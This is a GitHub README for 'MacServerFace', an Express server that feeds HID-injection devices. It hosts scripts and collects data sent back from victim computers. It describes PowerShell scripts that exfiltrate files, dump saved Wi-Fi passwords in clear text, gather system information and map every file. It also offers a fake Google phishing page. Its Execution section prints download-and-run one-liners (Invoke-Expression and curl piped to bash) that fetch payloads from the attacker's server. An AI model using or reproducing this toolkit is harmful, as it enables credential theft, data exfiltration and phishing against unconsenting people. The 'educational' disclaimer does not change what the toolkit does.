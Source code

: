 # MacServerFace

Do you have an HID injection device? OMG Cable, ALOA, BADUsb, or Flipper 0? Then this server is for you. Instead of making custom scripts on each device or even your only device, use this server to host your own scripts and be able to receive data from the client running the scripts. For your HID or Ducky scripts change one word and have access to all scripts hosted on the server. I have a few scripts to get you going and a fake login page(for fun). Mac and Linux scripts coming soon.

## Disclaimer

This project is for educational purposes and not to be used maliciously. This is just for me to get a basic understanding of hosting and serving different file types and understanding the power of HID injection.

## Table of Contents

- [Disclaimer](#disclaimer)
- [Description](#description)
- [Installation](#installation)
- [Setup](#Setup)
- [Scripts](#Scripts)  
- [Execution](#Execution)

## Description

This is a simple Express Server that allows for scripts to be served and uploads sent to the server. It also allows you to access a collection of Powershell, Bash, Ducky, HID scripts and a fake pishing pages. This server includes scripts to launch other scripts or webpages from the server. Making it so that you can change one line of code in your script and give your HID device access to all the scripts on the server.

## Installation

in the directory you want to store the project run the command:

```bash
git clone https://github.com/Pmacdon15/MacServerFace
```

Next we will need to install the Node Modules, I will list the commands here:

```bash
cd MacServerFace
```

```bash
npm install
```

## Setup

For easy setup download and install Python if you haven't already.

### On Windows type this in to your browsers URL bar

```url
https://www.python.org/downloads/
```

or

### On Linux in the terminal

```bash
sudo apt-get update
sudo apt-get install python3
```

Then after navigating to the project folder in the terminal run: 

(on Windows)
```bash
py setup.py
```

(on Mac or linux)
```bash
python3 setup.py
```

This will allow you to enter a new Ip Address or localhost and automatically change all the Powershell, Ducky, HID scripts to reflect the entered Ip address.

Replace pickAServerName  with a you choice.

I recommend using Pm2 so that you can do other things on your terminal while running the server, like checking the capturedInfo folder after running a script on a client's computer.

Remember to apply appropriate port forwarding if accessing the server from outside the network.

## Scripts

### setup.py 

This script will update the url of all scripts, so that you can easily set the Ip address of your server. 

### exfiltrateFile(s).ps1

This Script will transfer file(s) With specified path and sends them to the server's uploads directory.

### infoGather.ps1

This script gathers computer name / username , Ip address, Os version and current Wlan profile and password. Then it makes a temporary file and sends it to the server, then deletes the file.

### launchVoice.ps1

This script simply plays a computer voice over the client's computer, It can be updated to say anything you wish.

### mapFiles.ps1

This script list all files and directories on the clients computer in the capturedInfo directory. Files are listed and saved to a file then to the server and deleted from the temporary folder.

### openWebPageFull.ps1

This script will open a weg page in MS Edge and full screen it. Useful for using the built in fake pishing pages.

### qrCode.ps1

This Downloads a Qr Code to the clients computer and opens it for them to see.

### ransom.ps1

This script is a bit of a joke, it plays a computer voice stating your files have been encrypted. Then a progress bar is displayed, then and error message, after clicking ok the computer will go to the lock screen and no harm will have been done.

### rickRoll.ps1

Fairly self explanatory opens Microsoft Edge full screens the video and it should play a rick roll.

### rickRollMac.sh

Rick Roll for Mac although I have not had time to test it yet.

### selfDestruct.ps1

This script is a prank with a count down and progress bar. Nothing happens the bar fills up and the program exits.

### wifiDump.ps1 

This script dumps all Wlan profiles on a clients computer with a clear Key and sends them to the server.

### wifiDumpMac.sh

This should dump all the Wlan profiles on the client's computer although I have not had time to test it yet.

## Execution

To start the server 

```bash
node server.js
```

or

### Installing pm2 is optional

(on linux)
```bash
npm install -g pm2
```

or if you installed pm2

```bash
pm2 start server.js --name pickAServerName
```

After the server is running you can manually call a script make sure ipaddress and scriptname are updated(ipaddress can be updated automatically with setup.py), then enter the above code in to PowerShell. The below code can be found in the powerShell folder file named launchPsScript.ps1

```powershell
Invoke-Expression ([System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://<ipaddress>:3002/scripts/<scriptname>.ps1" -UseBasicParsing).Content))
```
or

```Bash
bash -c "$(curl -fsSL http://<ipaddress>:3002/<scriptName.sh>)"
```

Other wise you can use an HID injection device and uses one of the trigger scripts I have provided:

> [!NOTE]
> Make sure to run setup.py to update the server Ip address, as well as choosing a script name.

### DuckyScript 

1. launchPsScript.txt
2. launchPsScriptAdmin.txt

### HIDScript(ALOA)

1. launchPsScript.js
2. launchPsScriptAdmin.js

### Phishing site
1. http://<ipaddress>:3002/notGoogle





